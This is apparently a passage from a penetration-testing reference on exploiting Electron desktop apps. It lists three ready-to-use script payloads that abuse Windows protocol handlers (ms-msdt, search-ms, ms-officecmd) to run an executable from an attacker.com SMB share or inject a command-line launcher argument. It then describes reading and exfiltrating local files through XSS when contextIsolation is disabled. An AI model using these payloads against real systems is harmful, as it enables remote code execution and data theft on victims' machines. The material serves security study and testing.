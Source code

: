 **Examples of Windows protocol exploits include:**

```html
<script>
  window.open(
    "ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22"
  )
</script>

<script>
  window.open(
    "search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update"
  )
</script>

<script>
  window.open(
    "ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D"
  )
</script>
```

## Reading Internal Files: XSS + contextIsolation

**Disabling `contextIsolation` enables the use of `<webview>` tags**, similar to `<iframe>`, for reading and exfiltrating local files. An example provided demonstrates how to exploit this vulnerability to read the contents of internal files:

![](<../../../images/1 u1jdRYuWAEVwJmf_F2ttJg (1).png>)

Further, another method for **reading an internal file** is shared, highlighting a critical local file read vulnerability in an Electron desktop app. This involves injecting a script to exploit the application and exfiltrate data:
